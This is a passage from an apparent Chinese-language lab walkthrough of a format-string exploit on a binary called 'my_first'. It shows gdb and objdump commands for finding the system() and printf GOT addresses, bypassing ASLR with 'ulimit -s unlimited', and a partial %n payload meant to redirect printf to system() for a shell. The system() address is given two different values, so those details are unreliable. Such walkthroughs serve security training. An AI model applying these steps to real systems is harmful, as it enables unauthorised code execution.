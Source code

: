 我需要查看地址system()（有效负载将在哪里）和printf（漏洞在哪里）的位置。通过运行 gdb、设置断点、运行程序和打印系统来做到这一点：

gdb my_first
b main
run
print system
$1 = {<text variable, no debug info>} 0xf7dfdd00 <system>
系统位于 0xf7dfdd00


6）寻找printf位置

要找到 printf，我们可以运行 objdump：
objdump -R ./my_first
08049bfc R_386_JUMP_SLOT   printf@GLIBC_2.0

1. system() = 0x40069060
2. printf = 0x08049bfc

接下来弄清楚如何在内存中写入shellcode即可！


7）查看安全机制-ALSR

查看ASLR设置：
mike@pegasus:/home/mike$ cat /proc/sys/kernel/randomize_va_space
2

或者：
sysctl -a --pattern randomize
kernel.randomize_va_space = 2

0 = 关闭
1 = 半随机。共享库、栈、mmap() 以及 VDSO 将被随机化。（留坑，PIE会影响heap的随机化。。）
2 = 全随机。除了1中所述，还有heap。
说明存在随机化！

8）禁用ALSR

需要禁用ASLR，地址空间布局随机化 (ASLR) 是一种用于操作系统 (OS) 的内存保护过程，它通过随机化系统可执行文件加载到内存中的位置来防止缓冲区溢出攻击。 要禁用，我遵循此文档：https://www.exploit-db.com/exploits/39669/

通过文章知道，为了解决这个问题，可以使用ulimit来增加堆栈大小，ulimit -s unlimited将最大化堆栈大小，有效地导致ASLR实际上不存在，也就是禁用了！

ulimit -s
8192
ulimit -s unlimited
可以看到开始是8192，使用后不存在了！


8）测试printf填充格式字符串

"%n"将一个整数写入进程内存中的位置，需要将shellcode合并到有效负载中，到目前为止，目前只有一堆A 和它在哪里打印的位置地址！

并且在开始构建我们的漏洞利用时，我们的目标是使用%n写入新地址，我们将指向system()，而不是指向当前存在的 printf，它应该允许我们调用shell恶意代码！

接下来测试下将代码写入一个文件程序内，将A替换为printf的位置：

printf '1\n1\nAAAA.%%8$x%%x\n4\n' | ./my_first

替换为：printf = 0x08049bfc
printf '1\n1\n\xfc\x9b\x04\x08%%8$n' > shell
